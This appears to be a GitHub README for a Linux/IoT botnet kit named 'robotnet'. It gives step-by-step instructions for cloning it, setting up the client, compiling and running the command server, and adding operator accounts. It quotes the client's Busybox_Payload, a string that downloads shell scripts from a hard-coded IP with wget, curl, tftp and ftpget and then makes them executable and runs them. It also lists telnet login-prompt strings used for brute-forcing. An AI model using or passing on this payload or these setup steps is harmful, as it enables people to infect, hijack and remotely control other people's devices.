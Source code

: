 # robotnet
This is a Ubuntu botnet for OS_linux and linux

GETTING THE BOTNET 
sudo apt-get install git (this will install git )
git clone https://github.com/robotikmaniac/robotnet



dir  (This should be under robotnet)
cd robotnet
PACKAGES SHOULD INCLUDE
CC7.py    <<   python
CLIENT.C  <<   C++
server.C  <<   C++


PREP FOR BOTNET
nano client.c
(((((
skip past the includes
skip past the mozzilas
make sure you see this

char* phone[] = {":", "ogin", "sername", "assword", "Linux", "9615-cdp", (char*)0};
char *Busybox_Payload = "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://94.177.230.28/bins.sh; curl -O 
http://94.177.230.2/bin.sh; /bin/busybox tftp 94.177.230.28 -c get tftp1.sh; chmod 777 bins.sh; sh bins.sh; tftp 94.177.230.28 -c get 
tftp -r tftp1.sh -g 94.177.230.28; chmod 777 tftp1.sh; sh tftp1.sh; ftpget -v -u anonymous -p anonymous -P 21 94.177.230.28 ftp1.sh

)))))))))))

EDIT THE IP 
 LINE 224     ===   94.177.230.28:812  (change to)  "your ip":23
 
 MAKE SURE WHEN YOU EDIT THE IP'S CORRECT on one of the lines theres a IP thats looks LIKE 94.177.230.2
 (make sure to take off one of the numbers ) to the ip
 
 example (IP) 192.168.1.72
 if 94.177.230.28 make it look like 192.168.1.72     ------- if the ip looks like 94.177.230.2   make it look like 192.168.1.72
 
 after you have done all of that
 
 
 
 (COMPILE THE BOTNET)
 THE PACKAGES YOU WILL NEED
 
 sudo apt-get install yum               (MIGHT UPDATE)
 sudo apt-get install python3           (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 sudo apt-get install python-paramiko   (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 sudo apt-get install nano              (JUST DO IT IT MIGHT HAVE A NEW VERSION
 sudo apt-get install screen            (MOST OF LINUX OS's SO NOT HAVE SCREEN INSTALLED)
 sudo apt-get install gcc               (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 sudo apt-get install perl              (NEW VERSIONS OF PERL GET REALESED MONTHLY/WEEKLY)
 sudo apt-get install wget              (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 sudo apt-get install zip               (BOLTH ARE NEEDED FOR THE DOWNLOAD)
 sudo apt-get install zip2              (BOLTH ARE NEEDED FOR THE DOWNLOAD)
 sudo apt-get install unzip             (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 THOSE ARE ALL THE PACKAGES YOU NEED AFTER THAT I DO RECOMEND DOING
 sudo apt-get update     (DO THIS)
 sudo apt-get upgrade
 sudo apt-get update     (yes i typed this again on perpose)
 
 (RUNNING THE BOTNET)
 
 gcc server.c -o server -pthread
 ignore the warnings its just telling you that its going to port fowward using telnet-RAW
 
 
 python cc7.py cc7.py client.c (PUT SERVERS IP HERE)
 THIS WILL TAKE ABOUT 10 mins to install
 
 
 
(PORT FOWWARDING THE BOTNET)
THIS MAY NOT WORK IF USING A PRIVATE IP BUT IF YOU USED A EXTERNAL IP THIS WILL WORK FINE

screen ./server 23 1 (PORT 1-9999)
IF IT SAYS OTHER SYSTEM IS USING THE IP DONT WORRY IT WILL STILL WORK
IF IT HAS A BLACK SCREEN THE BOTNET IS PORT FOWWARDING



(CONNECT TO THE BOTNET)
GO INTO PUTTY then type your (IP OF CHOICE)
SELECT A RAW CONNECTON TYPE 
THEN TYPE THE PORT YOU USED (1-9999)
if you see something that sese
robotnet (THEN YOU HAVE CONNECTED TO YOUR BOTNET)
GO BACK TO YOUR SESSION 
PRESS "CTRL C"
then add some acounts 
USERNAME MUST BE >>>root<<< NO CAPS
echo root (PASSWORD OF CHOICE) >>login.txt
(AFTER THAT YOU HAVE JUST ADDED A ACOUNT)
PORT FOWWORD YOUR BOTNET AGAIN 
THEN use
username root
password of your choice
you should be greeted to a menu with the rules of the server 




(INFO ABOUT THE BOTNET)
SCANNERS MUST BE ADDED BY YOURSELF
SERVALENCE AND PRIVACY ALSO MUST BE ADDED BY YOURSELF
I RECOMEND USING LONG PROTECTIVE PASSWORDS
